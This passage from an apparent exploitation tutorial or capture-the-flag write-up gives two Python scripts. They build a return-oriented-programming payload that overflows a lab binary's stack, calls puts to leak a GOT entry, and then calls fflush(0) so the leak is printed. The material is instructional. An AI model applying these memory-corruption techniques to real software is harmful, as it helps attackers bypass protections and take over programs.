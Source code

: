 Let's get to work, we will use the same technique of ROPing to make the program call the `puts` function with the argument we provide:

```Python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
puts_got = ptr(0x601018)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

print payload
```

It's important to note though that we will find something with this code only if it runs AFTER the GOT entry has been filled (that is , if `puts` was already called). Which is our case of course because our code runs after the entire main is done.

**QUESTION: I run the exploit but get nothing back! what's wrong?**
That's because `puts` places the string on the stream but it doesn't yet flush it, so we have to call `fflush(0)` as well (remember the `fflush`?).
So we will add the following to the exploit code.

```python
import struct

def ptr(n):
    return struct.pack("Q", n)

PAD = "A" * 72


gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

print payload
```
